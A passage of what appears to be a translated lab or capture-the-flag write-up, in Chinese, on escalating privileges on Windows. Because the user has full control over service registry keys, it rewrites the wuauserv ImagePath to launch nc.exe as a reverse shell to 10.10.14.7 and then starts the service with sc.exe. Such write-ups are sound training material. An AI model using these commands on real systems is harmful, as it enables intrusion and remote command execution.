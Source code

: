说明 Control\Hector 有“完全控制权”。这意味着用户 Hector 可以更改系统中服务注册表的值。服务通常有一个“映像路径”，它是一个值条目，指定驱动程序映像文件的完全限定路径。这里的要点是能够通过更改服务的 ImagePath 的值来产生恶意进程。这里的问题是服务需要重新启动。我首先将服务列表的输出存储在变量$service 上，这是一个很长的列表(被截断):

![](img/3f45f00a7d5b17ab7b5b0cf63ecd3ddd.png)

这里的问题是确定我可以重启哪个服务。我从列表的底部开始向上移动。我最终使用了 wuauserv 服务，这是一种用于 Windows Update 的服务。我也想过创建一个脚本来强制我重启哪个服务，但这是现实的。

![](img/4562ae8214a2862ca13f2c1757c3218c.png)

然后，我可以将 ImagePath 值更改为 netcat 连接:

```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\wuauserv" /t REG_EXPAND_SZ /v ImagePath /d "C:\Users\hector\music\nc.exe 10.10.14.7 9005 -e cmd.exe " /f
```

然后，我使用 sc.exe 启动服务:

```
sc.exe \\fidelity start wuauserv
```
